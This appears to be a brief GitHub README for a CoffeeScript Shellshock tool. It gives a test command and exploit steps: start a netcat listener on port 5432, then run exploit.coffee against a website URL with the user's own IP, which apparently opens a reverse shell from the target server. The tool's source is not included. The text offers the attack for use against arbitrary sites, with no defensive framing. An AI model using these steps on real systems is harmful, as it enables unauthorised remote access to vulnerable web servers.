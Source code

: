 # shellshock


### Test

`coffee index.coffee <url of website>`


### Exploit

**Setup a NetCat listener:**
`nc -l 5432`


`coffee exploit.coffee <url of website> <Your IP> 5432`



MIT License 
